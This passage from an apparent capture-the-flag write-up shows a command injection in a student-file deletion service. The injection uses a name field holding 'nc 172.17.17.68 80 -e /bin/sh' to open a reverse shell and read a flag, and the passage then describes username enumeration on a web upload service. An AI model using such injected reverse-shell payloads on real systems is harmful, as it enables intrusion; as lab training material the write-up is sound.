 While an error message is shown, the deletion operation seems to have gone through.

After some testing, we found that there was an additional validation for the filename before going ahead with the deletion, but this appears to be insufficient as well, only matching the start of the filename.

For instance, `1_22.txt` matches the created file `1_2.txt`.&#x20;

I then created the three files below and tested a wildcard in the filename.

```
5. abc abc
6. abc abcabc
7. abc abcdef

...

Found student file: abc_abc*.txt
Deleting...
Completed.
```

Surprisingly, all three files were deleted! It occurred to me that `rm abc_abc*.txt` would have given this result, so we could hypothesise that a command injection could be performed.

```
Input: 4   

Deleting a student with the following details:
Student name: name
Student surname: surname; nc 172.17.17.68 80 -e /bin/sh;
Invalid characters entered.

Found student file: name_surname; nc 172.17.17.68 80 -e /bin/sh;.txt
Deleting...
```

Indeed, we received a shell! From here we can obtain the MD5 of the flag.

```
md5sum /hidden_storage/5_of_clubs.png
0c3c3d0e090f792ba5cedc8a2fe72b36  /hidden_storage/5_of_clubs.png
```

### Port 15010  \[Web]

After registration, we get redirected to `/users/<username>/files`, where we can upload files.

By testing with two accounts, we will also find that username enumeration is possible at `/users/<username>`, since a valid username results in a 403 redirect to our own account, while an invalid username results in a 404 Not Found error.

Performing a username enumeration (using the `dirb` wordlist) yielded the following valid usernames:

* `admin`
* `root`
* `builder`
* `employee`
* `staff`
